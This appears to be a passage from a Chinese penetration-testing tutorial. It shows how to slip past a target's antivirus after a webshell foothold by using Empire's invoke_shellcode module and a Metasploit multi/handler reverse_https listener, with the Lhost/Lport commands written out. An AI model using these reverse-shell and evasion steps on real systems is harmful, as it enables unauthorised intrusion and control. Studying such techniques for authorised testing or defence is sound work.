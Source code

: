  

------

实际渗透中，当拿到webshell上传的MSF客户端无法绕过目标机杀软时，可以使用powershell来绕过也可以执行Empire的payload来绕过，成功之后再使用Empire的模块将其反弹回Metasploit。

这里使用usemodule code_execution/invoke_shellcode模块，输入info看下参数，如下图所示。

[![http://p4.qhimg.com/t0161e1213e1fdfd45a.png](http://p4.qhimg.com/t0161e1213e1fdfd45a.png)](http://p4.qhimg.com/t0161e1213e1fdfd45a.png)

这里修改2个参数，Lhost和Lport，Lhost修改为msf所在主机ip，按下列命令设置完毕，如下图所示。

 

```
Set Lhost 192.168.31.247
Set Lport 4444
```

[![http://p6.qhimg.com/t0180bc1d55ef364933.png](http://p6.qhimg.com/t0180bc1d55ef364933.png)](http://p6.qhimg.com/t0180bc1d55ef364933.png)

在MSF上设置监听，命令如下，运行后，就可以收到Empire反弹回来的shell了，如下图所示。

 

```
Use exploit
/multi/handler
Set payloadwindows /meterpreter/reverse_https
Set Lhost 192.168.31.247 
Set lport 4444 
Run
```

[![http://p9.qhimg.com/t013c2b13aa1efb55df.png](http://p9.qhimg.com/t013c2b13aa1efb55df.png)](http://p9.qhimg.com/t013c2b13aa1efb55df.png) 

